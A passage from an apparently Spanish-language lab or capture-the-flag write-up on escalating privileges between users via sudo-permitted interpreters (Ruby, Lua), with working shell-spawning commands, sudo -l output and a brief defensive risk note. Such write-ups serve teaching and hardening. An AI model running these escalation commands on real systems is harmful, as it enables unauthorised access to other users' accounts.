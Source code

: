 Usamos el siguiente comando para escalar a `shaggy`:

```bash
sudo -u shaggy /usr/bin/ruby -e 'exec "/bin/sh"'
```

**Explicación**:

- `sudo -u shaggy`: Ejecuta el comando como el usuario `shaggy`.
- `/usr/bin/ruby`: Invoca el intérprete Ruby.
- `-e 'exec "/bin/sh"'`: Usa Ruby para ejecutar directamente `/bin/sh` reemplazando el proceso actual.

El resultado fue exitoso:

```bash
whoami
> shaggy
```

### Riesgo real en entornos productivos

Permitir el uso de intérpretes en `sudo` es como dejar la puerta entreabierta. Incluso si no se otorgan privilegios de root directamente, un atacante puede escalar fácilmente si se les permite ejecutar binarios como Ruby, Python o Bash bajo otros usuarios con más privilegios.


## Escalada de `shaggy` → `fred`

Al revisar los privilegios de `shaggy`:

```bash
sudo -l
Matching Defaults entries for shaggy on c12adce9f850:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User shaggy may run the following commands on c12adce9f850:
    (fred) NOPASSWD: /usr/bin/lua
```

Nuevamente, encontramos que otro lenguaje interpretado está disponible para ser ejecutado sin autenticación.

### Lua en `sudo`: un peligro subestimado

**Lua** es un lenguaje menos común, pero extremadamente potente. Su función `os.execute()` permite ejecutar cualquier comando del sistema, igual que un shell.

#### Escalada usando Lua

El siguiente comando fue utilizado:

```bash
sudo -u fred /usr/bin/lua -e 'os.execute("/bin/sh")'
whoami
fred
```
